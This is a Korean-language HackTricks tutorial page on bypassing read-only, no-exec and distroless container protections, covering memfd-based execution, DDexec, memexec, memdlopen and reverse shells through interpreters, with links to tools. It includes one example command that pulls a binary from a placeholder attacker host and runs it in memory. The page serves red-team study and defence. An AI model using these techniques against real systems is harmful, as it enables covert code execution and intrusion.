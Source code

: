# FS 보호 우회: 읽기 전용 / 실행 금지 / Distroless

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서 이 페이지에 언급된 기술을 더 깊이 설명합니다:

* [**DEF CON 31 - 스텔스 및 회피를 위한 리눅스 메모리 조작 탐색**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 인메모리 dlopen()을 이용한 스텔스 침투 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 읽기 전용 / 실행 금지 시나리오

리눅스 머신이 **읽기 전용 (ro) 파일 시스템 보호**로 마운트되는 경우가 점점 더 많아지고 있습니다. 특히 컨테이너에서 그렇습니다. 이는 ro 파일 시스템으로 컨테이너를 실행하는 것이 `securitycontext`에서 **`readOnlyRootFilesystem: true`**를 설정하는 것만큼 쉽기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되더라도 **`/dev/shm`**는 여전히 쓰기가 가능하므로 디스크에 아무것도 쓸 수 없다는 것은 잘못된 것입니다. 그러나 이 폴더는 **실행 금지 보호**로 마운트되므로 여기에서 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
레드 팀 관점에서 볼 때, 이는 시스템에 이미 없는 바이너리(예: 백도어 또는 `kubectl`과 같은 열거기)를 다운로드하고 실행하는 것을 **복잡하게 만듭니다**.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, **인터프리터가 머신 내에 있는 한** 어떤 스크립트도 **실행할 수 있습니다**. 예를 들어, `sh`가 있는 경우 **셸 스크립트**를 실행하거나 `python`이 설치된 경우 **파이썬 스크립트**를 실행할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행하기에 충분하지 않습니다.

## 메모리 우회

바이너리를 실행하고 싶지만 파일 시스템이 이를 허용하지 않는 경우, 가장 좋은 방법은 **메모리에서 실행하는 것**입니다. 왜냐하면 **보호가 적용되지 않기 때문입니다**.

### FD + exec 시스템 호출 우회

머신 내에 **Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 메모리 파일 설명자(`create_memfd` 시스템 호출)에 저장할 수 있습니다. 이는 이러한 보호에 의해 보호되지 않으며, 그런 다음 **`exec` 시스템 호출**을 호출하여 **실행할 파일로 fd를 지정**할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 바이너리를 전달하면 **바이너리가 압축되고 b64로 인코딩된** 스크립트를 지정된 언어로 생성하며, **fd**를 생성하여 `create_memfd` 시스템 호출을 호출하고 이를 실행하기 위한 **exec** 시스템 호출을 포함합니다.

{% hint style="warning" %}
이것은 PHP나 Node와 같은 다른 스크립팅 언어에서는 작동하지 않습니다. 왜냐하면 스크립트에서 원시 시스템 호출을 호출하는 **기본 방법이 없기 때문입니다**. 따라서 바이너리를 저장할 **메모리 fd**를 생성하기 위해 `create_memfd`를 호출할 수 없습니다.

또한, `/dev/shm`에 있는 파일로 **일반 fd**를 생성하는 것은 작동하지 않습니다. 왜냐하면 **실행 금지 보호**가 적용되기 때문에 실행할 수 없기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 기술은 **자신의 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓰는 것을 허용합니다.

따라서 **프로세스에서 실행되는 어셈블리 코드를 제어**함으로써, **셸코드**를 작성하고 프로세스를 "변형"하여 **임의의 코드를 실행**할 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**를 사용하면 **메모리**에서 자신의 **셸코드** 또는 **어떤 바이너리**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
더 많은 정보는 이 기술에 대해 Github를 확인하거나:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. **다른 바이너리**를 **실행**하고 싶을 때마다 DDexec를 다시 시작할 필요 없이, DDexec 기술을 통해 memexec 셸코드를 실행하고 **이 데몬과 통신하여 새 바이너리를 로드하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 리버스 셸에서 바이너리를 실행하는 방법에 대한 예시는** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 확인할 수 있습니다.

### Memdlopen

DDexec와 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 바이너리를 로드하는 더 쉬운 방법**을 제공합니다. 이는 의존성이 있는 바이너리도 로드할 수 있게 해줄 수 있습니다.

## Distroless Bypass

### Distroless란 무엇인가

Distroless 컨테이너는 특정 애플리케이션이나 서비스 실행에 필요한 **최소한의 구성 요소**만 포함하고 있으며, 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 더 큰 구성 요소는 제외합니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거하여 컨테이너의 공격 표면을 줄이고** 악용될 수 있는 취약점의 수를 최소화하는 것입니다.

### 리버스 셸

Distroless 컨테이너에서는 **정상적인 셸을 얻기 위해 `sh` 또는 `bash`를 찾을 수 없을 수도 있습니다**. `ls`, `whoami`, `id`와 같은 바이너리도 찾을 수 없습니다... 시스템에서 일반적으로 실행하는 모든 것입니다.

{% hint style="warning" %}
따라서, **리버스 셸**을 얻거나 **시스템을 열거**할 수 없습니다.
{% endhint %}

그러나 손상된 컨테이너가 예를 들어 플라스크 웹을 실행하고 있다면, 파이썬이 설치되어 있으므로 **파이썬 리버스 셸**을 얻을 수 있습니다. 노드를 실행하고 있다면 Node 리버스 셸을 얻을 수 있으며, 대부분의 **스크립팅 언어**와 동일합니다.

{% hint style="success" %}
스크립팅 언어를 사용하여 언어의 기능을 활용하여 **시스템을 열거**할 수 있습니다.
{% endhint %}

**`read-only/no-exec`** 보호가 없다면, 리버스 셸을 악용하여 **파일 시스템에 바이너리를 작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 이러한 보호가 일반적으로 존재하지만, **이전 메모리 실행 기술을 사용하여 우회할 수 있습니다**.
{% endhint %}

**RCE 취약점을 악용하여 스크립팅 언어의 리버스 셸을 얻고 메모리에서 바이너리를 실행하는 방법에 대한 예시는** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 확인할 수 있습니다.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 채용 중입니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
